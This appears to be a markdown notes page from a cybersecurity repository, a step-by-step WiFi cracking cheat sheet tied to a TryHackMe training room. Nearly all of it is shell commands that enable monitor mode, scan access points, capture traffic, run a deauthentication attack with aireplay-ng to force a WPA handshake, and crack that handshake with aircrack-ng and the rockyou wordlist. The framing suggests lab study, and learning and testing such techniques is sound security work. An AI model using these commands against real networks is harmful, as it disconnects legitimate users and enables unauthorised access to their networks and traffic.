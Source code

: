 📚 [Wifi Hacking 101](https://tryhackme.com/r/room/wifihacking101?ref=blog.tryhackme.com) | [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)

## sample data

[data/wifi-capture.zip](https://github.com/TurboLabIt/cybersec/tree/main/data)


## setup

[Install Aircrack-ng](https://github.com/TurboLabIt/cybersec/blob/main/script/aircrack/install.sh)


## network interfaces

````shell
sudo airmon-ng

````

Alternative:

````shell
iw dev
iw dev wlan0 info

````


## monitor mode

the Wi-Fi interface listens to all wireless traffic on a specific channel, regardless of whether 
it is directed to the device or not.
It passively captures all network traffic within range for analysis without joining a network.

````shell
sudo airmon-ng check kill
sudo airmon-ng start wlan0

````

The interface name in monitor mode is `wlan0mon`.

Alternative:

````shell
sudo ip link set dev wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set dev wlan0 up

````


## recon

MAC == BSSID (Bervice Set Identifier)

````shell
iw dev wlan0 scan

````

Alternative:

````shell
sudo airodump-ng wlan0

````


## capture + deauth attack

Capture:

````shell
sudo airodump-ng -c <network-channel-number> --bssid <access-point-mac-address> -w output-file wifi-capture.cap wlan0

````


As soon as a client is detected (`STATION`):

````shell
sudo aireplay-ng -0 1 -a <access-point-mac-address> -c <client-to-deauth-mac-address> wlan0

````

As soon as the `WPA handshake` is captured, you can stop.


## crack with aircrack

````shell
sudo aircrack-ng -a 2 -b <access-point-mac-address> -w /usr/share/wordlists/rockyou.txt *.cap

````


## crack with hashcat

[notes/hashcat-wifi.md](https://github.com/TurboLabIt/cybersec/blob/main/notes/hashcat-wifi.md)

